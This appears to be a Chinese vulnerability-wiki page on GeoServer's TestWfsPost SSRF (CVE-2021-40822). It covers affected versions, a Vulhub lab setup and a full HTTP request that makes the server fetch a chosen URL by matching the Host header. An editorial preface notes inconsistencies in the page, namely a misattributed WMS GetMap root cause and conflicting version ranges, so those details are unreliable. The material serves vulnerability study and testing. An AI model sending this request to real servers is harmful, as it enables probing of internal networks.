


# GeoServer TestWfsPost 接口未授权 SSRF 漏洞 CVE-2021-40822

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：TestWfsPost可达，可控制Host并使url通过同主机校验；请求实际TCP连接仍指向GeoServer而非伪造Host站点
- 证据范围：详细说明Host/url同名是有用前提；简介错误写WMS GetMap，与标题、请求均不一致。

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 简介WMS GetMap误归根因，实际文中是TestWfsPost
- 简介2.18.5之前与范围<=2.18.5矛盾，2.17.6修复说法无引用支撑
- 缺传输目标和伪造Host区别，示例易被误解成攻击testasp.vulnweb而非实验GeoServer
- username/password字段是发向SSRF目的端的Basic认证，不是登录GeoServer的必需凭据
- 无明确补丁/禁用Demo入口等修复章节

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在 GeoServer 2.19.3、2.18.5 和 2.17.6 版本之前，WMS GetMap 请求中存在服务器端请求伪造（SSRF）漏洞。攻击者可以利用此漏洞通过 GeoServer 服务器向内部或外部服务发送请求。

参考链接：

- https://github.com/advisories/GHSA-rr33-j5p5-ppf8
- https://nvd.nist.gov/vuln/detail/CVE-2021-40822

## 漏洞影响

```
GeoServer <= 2.18.5
GeoServer >= 2.19.0, <= 2.19.2
```

## 网络测绘

```
app="GeoServer"
```

## 环境搭建

Vulhub 执行如下命令启动一个 GeoServer 2.19.1 服务器：

```shell
docker compose up -d
```

服务启动后，你可以在 `http://your-ip:8080/geoserver` 查看到 GeoServer 的默认页面。




## 漏洞复现

漏洞存在于 TestWfsPost 接口中。攻击者可以利用 `url` 参数使服务器向任意 URL 发送请求。该接口接受以下参数：

- `url`：GeoServer 将要发送请求的目标 URL
- `body`：要发送的请求体内容。如果此参数为空，GeoServer 将发送 GET 请求；如果包含任何值，则 GeoServer 将发送 POST 请求
- `username`：基础认证的用户名（可选）
- `password`：基础认证的密码（可选）

发送如下请求来复现漏洞：

```http
POST /geoserver/TestWfsPost HTTP/1.1
Host: testasp.vulnweb.com
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Pragma: no-cache
Content-Length: 99

form_hf_0=&url=http%3A%2F%2Ftestasp.vulnweb.com%2Fgeoserver%2F..%2F&body=testtest&username=admin&password=admin
```

比如，使用 `testasp.vulnweb.com` 作为目标 URL，你将看到 `testasp.vulnweb.com` 的响应。




注意：`url` 参数中的主机名必须与请求中的 `Host` 头部值相同，否则 GeoServer 会返回错误。例如，如果 `url` 参数中的主机名是 `internal`，那么请求中的 `Host` 头部值也必须是 `internal`。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
